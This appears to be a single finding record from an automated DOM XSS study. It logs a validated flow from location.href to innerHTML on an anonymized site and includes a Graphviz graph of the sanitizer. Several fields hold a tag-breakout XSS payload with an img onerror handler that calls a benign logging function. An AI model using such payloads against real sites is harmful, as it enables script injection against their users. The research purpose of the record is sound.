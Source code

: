 // Finding: 454726cf-1426-4c49-9e33-ba65ab8d7bfd
// Finding.url: https://www.example317.com/#"></iframe></style></script></object></embed></textarea><img src=x onerror=taintfoxLog('0ba533f008f2485a99548426d51b48e2')><!--/*
// Finding.parentloc: https://www.example317.com/#"></iframe></style></script></object></embed></textarea><img src=x onerror=taintfoxLog('0ba533f008f2485a99548426d51b48e2')><!--/*
// Finding.domain: www.example317.com
// Finding.base_domain: example317.com
// Finding.source: location.href
// Finding.sink: innerHTML
// Sanitizer.score: 24
// Sanitizer.name: <synthetic>
// Sanitizer.location: example18.com
// Finding.begin: 410
// Finding.end: 424
// Finding.original_uuid: b647be59-d9b0-41d8-86f7-e3d096bfe11b
// Finding.TwentyFiveMillionFlowsId: -522684186
// Finding.script: https://www.example317.com/wp-content/themes/newscorpau-news-dna/dist/javascripts/js-c3po-bundle.js
// Finding.line: 1
// Exploit.uuid: 0ba533f0-08f2-485a-9954-8426d51b48e2
// Exploit.success: true
// Exploit.status: validated
// Exploit.method: C
// Exploit.type: html
// Exploit.token: attribute
// Exploit.content: href
// Exploit.quote_type: "
// Exploit.tag: a
// Exploit.break_out: #"></iframe></style></script></object></embed></textarea><img src=x onerror=
// Exploit.break_in: ><!--/*
// Exploit.payload: #"></iframe></style></script></object></embed></textarea><img src=x onerror=taintfoxLog(1)><!--/*
// Exploit.begin_taint_url: 8
// Exploit.end_taint_url: 33
// Exploit.replace_begin_url: 34
// Exploit.replace_end_url: 34
// Exploit.replace_begin_param: 511
// Exploit.replace_end_param: 511
// Issues.LargestEncodeAttrStringChain: 0
// Issues.LargestTextFragmentEncodeChainLength: 0
// Issues.HasApproximation: false
// Issues.HasMissingImplementation: false
// Issues.HasInfiniteRegexWithFunctionReplacer: false
// Issues.MergedSplitAndJoins: true
// Issues.HasUrlInRhsOfReplace: false
// Issues.HasUrlInLhsOfReplace: false
// Issues.HasCookieValueInLhsOfreplace: true
// Issues.HasCookieValueInRhsOfreplace: false
// Issues.HasCookieValueInMatchPattern: false
// Issues.HasCookieValueInExecPattern: false
// Issues.RemovedLRConcats: false
// Issues.RemovedReplaceArtifacts: false
// Issues.HasUrlInMatchPattern: false
// Issues.HasUrlInExecPattern: false
// Issues.RemovedNOPreplaces: true
// Issues.Known_sanitizer: false
// DepGraph.hash: 378191167
// DepGraph.sanitizer_hash: 1971208851
// Merged split and join statements 
// Removed NOP replaces 
// Cookie value ('?nk=e0a14317dfcc156b071ce576a8817958-1620289190') found in lhs of replace 
digraph cfg {
n0 [shape=house, label="Input: x"];
n1 [shape=ellipse, label="str_replace_once"];
n2 [shape=box, label="Lit: ?nk=e0a14317dfcc156b071ce576a8817958-1620289190"];
n3 [shape=box, label="Lit: "];
n4 [shape=box, label="Var: x"];
n5 [shape=ellipse, label="preg_replace"];
n6 [shape=box, label="RegExp: /[.]/"];
n7 [shape=box, label="Lit: ."];
n8 [shape=box, label="Var: x"];
n9 [shape=box, label="Var: x"];
n10 [shape=doubleoctagon, label="Return: x"];
n4 -> n0;
n1 -> n2;
n1 -> n3;
n1 -> n4;
n8 -> n1;
n5 -> n6;
n5 -> n7;
n5 -> n8;
n9 -> n5;
n10 -> n9;
}